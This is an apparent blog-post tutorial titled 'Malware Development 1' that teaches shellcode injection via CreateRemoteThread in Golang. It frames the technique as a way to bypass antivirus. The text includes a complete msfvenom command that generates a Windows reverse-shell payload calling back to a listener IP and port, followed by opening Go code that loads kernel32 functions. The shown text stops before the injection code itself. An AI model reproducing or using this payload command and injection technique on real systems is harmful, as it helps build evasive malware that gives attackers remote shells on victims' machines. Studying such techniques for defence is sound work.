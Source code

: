 ```yaml
---
title: "Malware Development 1 - CreateRemoteThread shellcode injection (Golang)"
description: "Today we’re gonna see a simple malware development technique, Shellcode injection via CreateRemoteThread in Golang..."
slug: "malware-development-create-remote-thread-shellcode-injection-golang"
date: "2024-10-01"
author: "Waseem Akram"
image: "/images/posts/maldev/1/thumb-remotethread.webp"
---
```


## Introduction

Hello hackers!

Today we’re gonna see a simple malware development technique, Shellcode injection via CreateRemoteThread in Golang. The most complex malwares use different shellcode injection techniques to bypass common AV vendors as the shellcode is executed in memory.

Executing shellcode
Let’s test this with a simple metasploit reverse shell, to generate it use msfvenom like this:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.116.146 LPORT=9999 -f raw -o shellcode.bin
```

In this post we’ll be using the **raw** format, however in future posts we’ll see how we can combine encryption/decryption functions to avoid static scanning and much more

As every Golang program we start defining the package name and which packages we want to import

```go
package main

import (
  "os"
  "fmt"
  "log"
  "unsafe"
  "strconv"
  "io/ioutil"

  "golang.org/x/sys/windows"
)
```

To perform this technique we have to use some Windows API calls and to use them in Golang you must import them from their DLLs like this:

```go
func main(){
  // Import dll
  kernel32 := windows.NewLazyDLL("kernel32.dll")

  // Import the function
  GetCurrentProcess := kernel32.NewProc("GetCurrentProcess")

  // Call the function
  GetCurrentProcess.Call()
}
```
